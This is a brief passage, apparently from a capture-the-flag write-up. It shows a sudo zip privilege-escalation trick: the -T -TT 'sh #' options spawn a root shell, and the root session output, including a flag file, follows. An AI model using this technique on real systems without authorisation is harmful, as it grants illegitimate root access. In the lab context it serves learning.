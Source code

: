 ./gtfo-zip-sudo-ep.png

	TF=$(mktemp -u)
	sudo zip $TF /etc/hosts -T -TT 'sh #'

- We have escalated our privileges to root.
		
		jeanpaul@dev:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
		updating: etc/hosts (deflated 31%)
		# id      
		uid=0(root) gid=0(root) groups=0(root)
		# whoami
		root
		# cat /root/flag.txt
		Congratz on rooting this box !
		# 




